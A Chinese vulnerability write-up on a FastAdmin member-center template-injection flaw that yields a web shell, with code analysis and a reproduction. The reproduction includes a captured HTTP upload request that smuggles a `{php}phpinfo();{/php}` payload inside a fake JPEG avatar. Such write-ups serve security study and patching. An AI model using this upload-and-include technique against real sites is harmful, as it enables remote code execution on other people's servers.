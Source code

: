 FastAdmin 会员中心前台getshell
==============================

一、漏洞简介
------------

### 利用条件

`/application/config.php` 文件中：

    //是否开启前台会员中心
    'usercenter'            => true,

即需要开启会员中心功能

二、漏洞影响
------------

V1.0.0.20200506\_beta

三、复现过程
------------

### 漏洞分析

`/application/index/User.php`文件

第58-67行：

     public function _empty($name)
        {    
            $data = Hook::listen("user_request_empty", $name);
                foreach ($data as $index => $datum) {
                $this->view->assign($datum);
                }
        return $this->view->fetch($name);
    }
    user_request_empty`为开发者预留的钩子可以忽视不看，主要看` return $this->view->fetch($name);

此方法中的`$name`参数可控，并且将`$name`的值传入到了`fecth()`函数中。

`fetch()`为thinkphp的解析模板函数，其返回模板文件渲染后的内容

`fetch()`函数的关键内容如下：

      public function fetch($template, $data = [], $config = [])
        {
            if ('' == pathinfo($template, PATHINFO_EXTENSION)) {
                // 获取模板文件名
                $template = $this->parseTemplate($template);
            }
            // 模板不存在 抛出异常
            if (!is_file($template)) {
                throw new TemplateNotFoundException('template not exists:' . $template, $template);
            }
            // 记录视图信息
            App::$debug && Log::record('[ VIEW ] ' . $template . ' [ ' . var_export(array_keys($data), true) . ' ]', 'info');
            $this->template->fetch($template, $data, $config);
        }

继续调用栈可以看下其实这个fetch()函数调用的是内置模板引擎的fetch方法，
这个方法实际上就是将要输出的页面内容赋值给一个变量，为了方便，thinkphp在对模板渲染的过程中，添加了php标签功能，使得其可以解析php代码。

总之一句话，这个漏洞其实就是由于对传入变量过滤不严导致的模板引擎注入漏洞，只要控制了传入模板的文件，就可以利用模板本身的渲染功能，实现包含漏洞getshell

另外需要注意的是，当验证传入的模板是否是文件时，使用的`is_file()`函数，这个函数在Linux下和windows下的判断会有所不同，具体如下：

1、在linux下利用`is_file()`来判断类似于`/****/../../../../etc/passwd`文件时，如果`****`是不存在的目录，则会返回false，在windows下
，这个目录存在与否，均返回true，如下图所示：

![1.png](/Users/aresx/Documents/VulWiki/.resource/FastAdmin会员中心前台getshell/media/rId26.png)

![2.png](/Users/aresx/Documents/VulWiki/.resource/FastAdmin会员中心前台getshell/media/rId27.png)

2、在linux下，`is_file()`函数判可用于判断符号链接

3、在linux下，`is_file`函数会受到权限的影响，当前用户权限不足或父目录没有设置+x权限时，`is_file()`会返回false

4、windows系统里面`/`和`\` 都可以使用，但是在linux下只能使用`/`
来分隔路径，因此这会导致`is_file()`在不同系统下的返回结果不一致

![3.png](/Users/aresx/Documents/VulWiki/.resource/FastAdmin会员中心前台getshell/media/rId28.png)

![4.png](/Users/aresx/Documents/VulWiki/.resource/FastAdmin会员中心前台getshell/media/rId29.png)

5、`is_file()`判断文件时，如果文件大小超过2\^32时，会判断失败

### 漏洞复现

通过前文可知，这个漏洞的利用点在`_empty()`函数，需要注意的是，在官方文档中通常`_empty()`方法是用来判断一个方法是否存在，如果不存在，则进入该函数。而这里是开发者自定义的方法，因此直接传入`_empty`方法，调用name参数即可。

利用过程如下：

在前台的会员中心，个人资料处，上传修改头像：

![5.png](/Users/aresx/Documents/VulWiki/.resource/FastAdmin会员中心前台getshell/media/rId31.png)

抓包后修改图片数据（满足图片头格式即可）：

    POST /index/ajax/upload HTTP/1.1
    Host:www.0-sec.org:8088
    Content-Length: 596
    Origin: http://122.114.216.233
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJ60Dcmopu4qDLQwq
    Accept: */*
    Referer: http://103.40.247.24/index/user/profile.html
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: Hm_lvt_f8d0a8c400404989e195270b0bbf060a=1600651554; PHPSESSID=e42uhkmhirv29cpd82qbubigd7; uid=3; token=251be91c-040b-4231-b955-76c3ecfaf4f4; Hm_lpvt_f8d0a8c400404989e195270b0bbf060a=1600651809
    Connection: close

    ------WebKitFormBoundaryJ60Dcmopu4qDLQwq
    Content-Disposition: form-data; name="name"

    400x400a0a0.jpg
    ------WebKitFormBoundaryJ60Dcmopu4qDLQwq
    Content-Disposition: form-data; name="file"; filename="400x400a0a0.jpg"
    Content-Type: image/jpeg

    ÿØÿà8Photoshop 3.08BIM8BIM%"
    {php}phpinfo();{/php}
    ------WebKitFormBoundaryJ60Dcmopu4qDLQwq--

![6.png](/Users/aresx/Documents/VulWiki/.resource/FastAdmin会员中心前台getshell/media/rId32.png)

记录下路径后，成功getshell

![7.png](/Users/aresx/Documents/VulWiki/.resource/FastAdmin会员中心前台getshell/media/rId33.png)

在Linux下，通过这种方法会失效，因为在`/public`路径下不存在`user`目录，由前文中的知识点可以知道，当不存在这个目录的时候，无论怎么跳转目录，`is_file()`函数返回的结果始终未false，因此无法利用该漏洞，如下图所示：

![8.png](/Users/aresx/Documents/VulWiki/.resource/FastAdmin会员中心前台getshell/media/rId34.png)

当我们在`/public`目录下创建文件夹`/user`，在利用，即可成功：

![9.png](/Users/aresx/Documents/VulWiki/.resource/FastAdmin会员中心前台getshell/media/rId35.png)

参考链接
--------

> https://www.cnpanda.net/codeaudit/777.html
